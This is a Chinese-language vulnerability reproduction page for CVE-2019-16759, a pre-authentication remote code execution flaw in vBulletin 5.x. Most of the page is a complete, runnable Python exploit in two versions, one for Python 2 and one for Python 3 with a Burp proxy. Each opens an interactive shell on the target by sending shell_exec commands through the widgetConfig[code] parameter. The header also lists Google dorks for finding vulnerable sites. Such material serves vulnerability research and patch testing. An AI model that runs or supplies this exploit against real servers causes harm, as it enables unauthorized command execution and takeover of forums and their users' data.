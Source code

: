 # （CVE-2019-16759）vBulletin 5.x 0day pre-auth RCE exploit

> 原文：[http://book.iwonder.run/0day/vBulletin/1.html](http://book.iwonder.run/0day/vBulletin/1.html)

## 一、漏洞简介

## 二、漏洞影响

影响版本：vBulletin 5.0.0~5.5.4

## 三、复现过程

```
poc 如下:

#!/usr/bin/python

#

# vBulletin 5.x 0day pre-auth RCE exploit

#

# This should work on all versions from 5.0.0 till 5.5.4

#

# Google Dorks:

# - site:*.vbulletin.net

# - "Powered by vBulletin Version 5.5.4"

import requests

import sys

if len(sys.argv) != 2:

   sys.exit("Usage: %s <URL to vBulletin>" % sys.argv[0])

params = {"routestring":"ajax/render/widget_php"}

while True:

    try:

         cmd = raw_input("vBulletin$ ")

         params["widgetConfig[code]"] = "echo shell_exec('"+cmd+"'); exit;"

         r = requests.post(url = sys.argv[1], data = params)

         if r.status_code == 200:

              print r.text

         else:

              sys.exit("Exploit failed! :(")

    except KeyboardInterrupt:

         sys.exit(" Closing shell...")

    except Exception, e:

         sys.exit(str(e)) 
```

将 poc 代码修改为 python3 使用的代码，并添加代理使用 burpsuite 抓包。修改的 poc 代码如下：

```
# -*-coding:utf-8 -*-

import requests
import sys

if len(sys.argv) != 2:
    sys.exit("Usage: %s <URL to vBulletin>" % sys.argv[0])

proxies ={
     "http":"http://127.0.0.1:8080/"
}
params = {"routestring":"ajax/render/widget_php"}

while True:
     try:
          cmd = input(">>>Shell= ")
          params["widgetConfig[code]"] = "echo shell_exec('"+cmd+"'); exit;"
          r = requests.post(url = sys.argv[1], data = params, proxies=proxies)
          if r.status_code == 200:
               print(r.text)

          else:
               sys.exit("Exploit failed! :(")
     except KeyboardInterrupt:
          sys.exit("\nClosing shell...")
     except Exception as e:
          sys.exit(str(e)) 
```

远程代码执行漏洞的触发点是未经过验证的用户通过向 index.php 发送 routestring 参数，当 routesting 参数是 ajax/render/widget_php，通过 widgetConfig[code]执行远程代码，格式为 echo shell_exec('"+cmd+"'); exit;

![image](img/a4114ac8a2454ef1b29183acaa8d108e.png)

